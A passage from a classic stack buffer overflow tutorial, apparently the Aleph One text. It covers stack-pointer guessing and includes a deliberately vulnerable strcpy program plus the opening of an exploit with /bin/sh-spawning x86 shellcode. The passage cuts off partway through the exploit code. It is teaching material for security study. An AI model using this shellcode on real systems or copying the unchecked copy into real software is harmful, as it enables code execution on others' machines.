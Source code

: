 The problem we are faced when trying to overflow the buffer of another
program is trying to figure out at what address the buffer (and thus our
code) will be.  The answer is that for every program the stack will
start at the same address.  Most programs do not push more than a few hundred
or a few thousand bytes into the stack at any one time.  Therefore by knowing
where the stack starts we can try to guess where the buffer we are trying to
overflow will be.  Here is a little program that will print its stack
pointer:

{% highlight C %}
sp.c
------------------------------------------------------------------------------
unsigned long get_sp(void) {
   __asm__("movl %esp,%eax");
}
void main() {
  printf("0x%x\n", get_sp());
}
------------------------------------------------------------------------------
{% endhighlight %}

```
------------------------------------------------------------------------------
[aleph1]$ ./sp
0x8000470
[aleph1]$
------------------------------------------------------------------------------
```

Lets assume this is the program we are trying to overflow is:

{% highlight C %}
vulnerable.c
------------------------------------------------------------------------------
void main(int argc, char *argv[]) {
  char buffer[512];

  if (argc > 1)
    strcpy(buffer,argv[1]);
}
------------------------------------------------------------------------------
{% endhighlight %}

We can create a program that takes as a parameter a buffer size, and an
offset from its own stack pointer (where we believe the buffer we want to
overflow may live).  We'll put the overflow string in an environment variable
so it is easy to manipulate:

{% highlight C %}
exploit2.c
------------------------------------------------------------------------------
#include <stdlib.h>

#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512

char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {
   __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) {
  char *buff, *ptr;
  long *addr_ptr, addr;